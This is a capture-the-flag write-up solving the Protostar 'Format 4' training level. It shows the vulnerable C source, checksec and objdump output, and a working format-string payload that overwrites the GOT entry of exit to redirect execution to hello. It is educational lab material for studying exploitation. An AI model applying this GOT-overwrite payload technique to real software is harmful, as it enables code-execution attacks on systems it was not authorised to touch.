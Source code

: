 # Protostar - Format 4

### About ###

>%p format4 looks at one method of redirecting execution in a process.
>
>**Hints**
>
> - objdump -TR is your friend
> 
>This level is at `/opt/protostar/bin/format4`


### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);   
}

int main(int argc, char **argv)
{
  vuln();
}
```

### Solution 

The point of this challenge is to change the saved `eip` in order to redirect the flow of execution to the function `hello`.

There is no full or partial RELRO, which means we can change the values of the GOT. More details about this type of exploitation can be found [here](http://phrack.org/issues/56/7.html) [1].

```
user@protostar:/tmp$ ./checksec.sh --file /opt/protostar/bin/format4
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /opt/protostar/bin/format4
```

Since we want redirect the execution to `hello`, we will need to change the GOT entry of a function following the exploitation of the format string bug. In our case, we don't have much of a choice, we have to change the GOT entry of the function `exit`.

`objdump` tells us that the GOT entry of `exit` is at the address `0x08049724`.

```
user@protostar:/tmp$ objdump -TR /opt/protostar/bin/format4
[...]
08049724 R_386_JUMP_SLOT   exit
```

We are going to change the content of that memory location by the address of `hello` which is `0x080484b4`.

```
user@protostar:/tmp$ objdump -t /opt/protostar/bin/format4 | grep hello
080484b4 g     F .text 	0000001e              hello
```

At this point, the remaining steps are the same than in the previous exercise and with the following format string, we are able to change the GOT entry of `exit` and redirect the execution to the function `hello`.

```
\x24\x97\x04\x08\x26\x97\x04\x08%33964c%4$n%33616c%5$n
```

```
user@protostar:/tmp$ python -c "print '\x24\x97\x04\x08\x26\x97\x04\x08%33964c%4\$n%33616c%5\$n'" | format4
[...]
code execution redirected! you win
```
 

### References

 * [1] Shared Library Call Redirection Via Elf PLT Infection, [http://phrack.org/issues/56/7.html](http://phrack.org/issues/56/7.html)

